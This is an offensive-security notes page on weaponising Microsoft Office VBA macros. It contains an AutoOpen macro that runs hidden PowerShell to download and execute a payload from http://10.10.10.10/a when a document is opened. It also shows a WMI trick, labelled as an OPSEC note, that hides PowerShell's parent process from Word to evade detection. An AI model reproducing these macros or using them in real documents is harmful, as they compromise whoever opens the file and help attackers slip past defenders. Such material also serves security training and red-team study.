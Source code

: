 ```yaml
---
title: Microsoft Office Macros
category: Client Side Attacks
order: 2
---
```


# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

To create a macro go to `View -> Macros` and create one.

![Macro](/hackingnotes/images/macro-create.png)

> **Note**: It's important to select the document in order to save the macro inside.

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

![Macro](/hackingnotes/images/macro-calc.png)

> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```

# Changing Prent-Child Relationship

When a powershell is executed from a word macro a child `powershell.exe` process is created from `winword.exe` (MS Word as a Parent). This isn't normal behaviour and highly suspicious.

With `wmi` we can create another parent process and append the powershell to wmi and not to the MS Word.


```VB
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```


> **OPSEC Note**: In that case, powershell will be a child of `WmiPrvSE.exe` rather than MS Word.